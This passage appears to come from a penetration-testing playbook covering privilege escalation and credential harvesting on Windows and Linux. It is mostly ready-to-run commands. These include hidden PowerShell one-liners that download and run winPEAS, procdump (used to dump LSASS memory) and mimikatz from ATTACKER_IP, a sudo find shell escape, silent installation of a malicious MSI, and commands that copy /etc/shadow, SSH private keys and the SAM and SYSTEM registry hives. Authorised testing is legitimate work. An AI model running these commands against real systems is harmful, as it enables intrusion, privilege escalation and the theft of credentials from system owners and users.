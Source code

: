 Windows:

```cmd
:: winPEAS
powershell -nop -w hidden -c "iwr -useb http://ATTACKER_IP:8000/winPEASx64.exe -OutFile $env:TEMP\winpeas.exe; & $env:TEMP\winpeas.exe"

:: Manual checks
whoami /priv
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i " "
schtasks /query /fo LIST /v
icacls "C:\Program Files" | findstr /i "(F) (M) (W)"
```

Example exploitation triggers (only if identified and in scope):

- Linux sudo NOPASSWD on benign binary (check GTFOBins):
```bash
sudo -l
# Example if find is allowed:
sudo /usr/bin/find . -exec /bin/sh -p \; -quit
```

- Windows AlwaysInstallElevated (MSI as SYSTEM):
```cmd
:: Build a malicious MSI (on attacker) with msfvenom or use a known benign test; then on victim:
msiexec /quiet /qn /i C:\Path\to\payload.msi
```

### 4) Credential harvesting

Linux:

```bash
# Web/app configs
grep -RniE "pass|user|db|secret|token|key" /var/www /opt /home 2>/dev/null | head -n 50
cat /var/www/html/wp-config.php 2>/dev/null

# SSH keys
ls -la ~/.ssh; cat ~/.ssh/id_rsa 2>/dev/null

# If root, dump hashes
cp /etc/passwd /tmp/passwd.bak
cp /etc/shadow /tmp/shadow.bak
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.txt
```

Windows:

```cmd
:: Save SAM/SECURITY/SYSTEM for offline dump (needs Admin)
reg save HKLM\SAM C:\Windows\Temp\SAM.save
reg save HKLM\SYSTEM C:\Windows\Temp\SYSTEM.save
reg save HKLM\SECURITY C:\Windows\Temp\SECURITY.save

:: Procdump LSASS (Admin; AV may block)
powershell -c "iwr -useb http://ATTACKER_IP:8000/procdump64.exe -OutFile $env:TEMP\procdump.exe; & $env:TEMP\procdump.exe -accepteula -ma lsass.exe $env:TEMP\lsass.dmp"

:: Mimikatz (if allowed)
powershell -c "iwr -useb http://ATTACKER_IP:8000/mimikatz.exe -OutFile $env:TEMP\mimikatz.exe; & $env:TEMP\mimikatz.exe"
```
